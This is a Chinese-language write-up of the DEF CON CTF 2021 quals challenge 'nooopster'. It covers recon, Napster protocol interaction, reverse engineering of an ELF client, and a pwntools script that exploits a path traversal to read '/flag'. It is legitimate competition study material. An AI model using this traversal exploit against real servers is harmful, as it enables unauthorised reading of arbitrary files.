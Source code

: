 ```yaml
---
title: defcon ctf 2021 quals - nooopster
date: 2022-01-23 05:31:09
tags:
- defcon ctf 2021 quals
- pwn
categories:
- CTF 
---
```


# nooopster

![](BT4KL7X.png)

![](Z1zFFtl.png)

![](8tJ74WV.png)

## 偵蒐階段

進入內網後對 **192.168.5.1** 進行掃描。得到以下結果

```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-01-23 06:08 CST
Nmap scan report for 192.168.5.1
Host is up (0.011s latency).

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.47 seconds

```

跟這兩個 port 進行互動沒得到什麼資訊，拿 **napster** 這個字眼跟題目很像的名字進行搜尋，發現這個 [client](http://nap.sourceforge.net/) ，載下來後跟 port 7070 互動，但發現沒有效果，嘗試用一樣的程式跟 port 8888 互動得到了響應。[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html) 這裡提供跟 napster server 互動的所有指令。

![](62rKHoR.png)

以下我執行了這些指令。

```bash
# 列出所有頻道
/clist

# 進入 chat 頻道
/join #chat

# 列出 nooopster 這個用戶提供的檔案清單
/browse nooopster
```

清單中有一個非 mp3 的檔案，載下來之後發現這是一隻 elf 格式的程式。我們開始嘗試逆它。

![](Jbt611q.png)

## 逆向

分析整體流程可以大約分為以下幾個階段: 

1. 連線到 127.0.0.1:8888 ， 並且檢查 napser server 上有沒有 **nooopster** 這個用戶，若沒有的話，以 **nooopster** 為用戶名登入。
2. 創建一條 thread 並且在裡面創建 data server (負責用來上傳檔案到 nooopster server 或是讓其他用戶直接下載檔案) 在 0.0.0.0:7070 監聽。
   1. 收到用戶連線後，創建一條 thread 負責處理此用戶的請求，先檢查用戶是否在下載請求的清單中，如果在的話，接者檢查要求的檔案名稱是否以字串 **"\shared\\"** 作為開頭，若通過檢查，接者會把字串 **"\shared\\"** 以後檔案名稱作為字串傳入 `open` 中。例如用戶要求下載 **"\shared\\/etc/passwd"**，則最後得到的結果會是 `open("/etc/passwd","r")`。 這裡很明顯有**路徑穿越的漏洞**，可以利用這個漏洞去讀 **"/flag"**。
3. main thread 接者會不斷的重複傳送幾條提示用的訊息到 napster server 中的頻道 chat 中，以及接收來自 napster server 的檔案下載請求 ( 其他用戶的下載請求 )，這裡不做任何檢查，**直接把用戶名加入下載請求的清單中**。



分析完後可以很明顯的發現，這是一隻根據 napster 的 protocol 實作出來的簡易 client，且帶有**路徑穿越的漏洞**，讓我們能夠下載任意檔案。

## 利用腳本

詳細的 protocol 細節在逆向 nooopster 這支 binary 的時候，有搜尋到對應的 [specification](http://opennap.sourceforge.net/napster.txt)，照著上面內容實作跟 server 互動的封包即可。

```python
from pwn import *
import ipaddress

user = "test"
def to_nap_format(opcode, content):
    return p16(len(content)) + p16(opcode) + content

def nap_msg_send(s, opcode, content):
    s.send(to_nap_format(opcode, content))

def nap_msg_recv(s):
    tmp = s.recvn(4, timeout = 0.5)
    if not tmp:
        return None  
    n = u16(tmp[:2])
    opcode = u16(tmp[2:])
    
    return {"op": opcode, "data":s.recvn(n)}

nap_server = remote("192.168.5.1", 8888)

# 檢查 napster server 上是否有這個用戶名
nap_msg_send(nap_server, 7, user.encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 登入伺服器
nap_msg_send(nap_server, 2, f"{user} test 0 \"nap v0.8\" 3".encode())
msg = nap_msg_recv(nap_server)
print(msg)

# 接收一些伺服器資訊
while 1:
    msg = nap_msg_recv(nap_server)
    if not msg:
        break

# 請 napster server 向 nooopster 請求我們下載檔案的請求
nap_msg_send(nap_server, 203, b"nooopster \"\\shared\\nooopster\"") 
msg = nap_msg_recv(nap_server)
print(msg)
tmp = msg["data"].split(b' ')

# nooopster 接受下載後 napster server 會回覆我們 nooopster's 的 data server 的地址和端口
ip = str(ipaddress.IPv4Address(u32(p32(int(tmp[1])), endian = "big")))
port = int(tmp[2])

# 直接觸發路徑穿越漏洞去讀取 flag
data_server = remote(ip, port)
print(data_server.recv())
target_file = "/flag"
data_server.send(f"GET{user} \"\\shared\\{target_file}\" 0".encode())

print(data_server.recvall().decode())
nap_server.close()
data_server.close()
```



# resource 

[Linux Napster Client: User Guide](http://nap.sourceforge.net/userguide.html#4.2.)

[napster protocol](http://opennap.sourceforge.net/napster.txt)
